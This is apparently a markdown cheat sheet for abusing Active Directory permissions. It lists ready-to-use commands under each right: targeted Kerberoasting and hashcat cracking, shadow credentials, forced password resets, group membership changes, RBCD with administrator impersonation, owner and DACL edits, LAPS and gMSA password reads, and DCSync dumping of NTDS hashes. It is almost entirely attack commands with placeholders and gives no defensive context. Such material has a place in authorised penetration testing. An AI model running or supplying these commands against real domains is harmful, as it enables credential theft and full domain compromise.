 - [GenericWrite](#genericwrite)
- [GenericALL](#genericall)
- [ForceChangePassword](#forcechangepassword)
- [AddMember](#addmember)
- [WriteOwner](#writeowner)
- [AddKeyCredentialLink](#addkeycredentialLink)
- [ReadLAPSPassword](#readlapspassword)
- [ReadGMSAPassword](#readgmsapassword)
- [DCSync](#dcsync)
## GenericWrite
> Update object's attributes
### Targeted Kerberoasting
```
python targetedKerberoast.py -v -d <domain> -u <username> -p <password>
```

```
hashcat -m 13100 -a 0 <hash_file> rockyou.txt --force
```
### ShadowCredentials
```
certipy shadow auto -u username@domain -p <password> -account <target_username> -dc-ip <ip>
```
Using Kerberos
```
certipy shadow auto -username username@domain -p <password> -k -account <target_username> -target <dc>
```
## GenericALL
> Full rights to the object (add users to a group or reset user's password)
### Password Change
```
net rpc password <username> <new_password> -U <domain>/<username>%<hash> -S <dc> --pw-nt-hash
```
### Add user to a group
```
net rpc group addmem <target_group> <username> -U <domain>/<username> -S <dc>
```
### RBCD
```
rbcd.py -delegate-from '<machine_name>' -delegate-to '<target>' -dc-ip <ip> -action 'write' '<domain>/<username>:<password>'
```

```
getST.py -spn 'cifs/<dc>' -impersonate administrator -dc-ip <ip> '<domain>/<machine_name>:<password>'
```

```
export KRB5CCNAME=administrator.ccache
```
## ForceChangePassword
> Ability to change user's password
```
net rpc password <TargetUser> <new_password> -U "DOMAIN"/"ControlledUser"%"Password" -S <DomainController>
```

```
bloodyAD --host <ip> -d <dc> -u <username> -p <password> set password <target_userename> <new_password>
```

```
python rpcchangepwd.py <domain>/<username>:<password>@<ip> -newpass <new_password>
```
## AddMember
```
net rpc group addmem <target_group> <username> -U <domain>/<username> -S <dc>
```
## WriteOwner
> Change object owner to attacker controlled user take over the object
```
owneredit.py -action write -new-owner <username> -target <group_name> <domain>/<username>:<password>
```

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal <username> -target-dn <dn> <domain>/<username>:<password>
```

```
bloodyAD.py -d <domain> -u <username> -p <password> --host <dc> add groupMember <target_group> <username>
```
## AddKeyCredentialLink
```
python3 pywhisker.py -d <domain> --dc-ip <ip> -u <username> -H :<hashes> --target <target_username> --action "add"
```

```
certipy shadow auto -username <username>@<domain> -hashes :<hashes> -account <target_username>
```
## ReadLAPSPassword
```
nxc smb <target> -u <username> -p <password> --laps
```
## ReadGMSAPassword
```
nxc ldap <target> -u <username> -p <password> --gmsa
```
## DCSync
```
secretsdump.py <dc> -k
```

```
nxc smb <domain> -u <username> -p <password> --ntds
```

```
nxc smb <domain> -k --use-kcache --ntds
```
# Resources
- https://www.thehacker.recipes/ad/movement/dacl/
- https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse
- https://mayfly277.github.io/posts/GOADv2-pwning-part11/
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

